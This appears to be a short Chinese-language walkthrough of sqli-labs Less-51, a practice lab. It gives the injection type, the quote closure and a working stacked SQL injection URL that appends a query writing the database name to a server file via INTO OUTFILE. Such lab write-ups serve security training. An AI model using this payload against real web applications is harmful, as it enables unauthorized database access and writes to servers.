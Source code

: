 ### Less-51：GET -Error based - ORDER BY CLAUSE-String- stacked lnjection

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-51/?sort=2';
select 'Less-51',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt"; --+
```

![](file/image_sbdrnuAkj9.png)
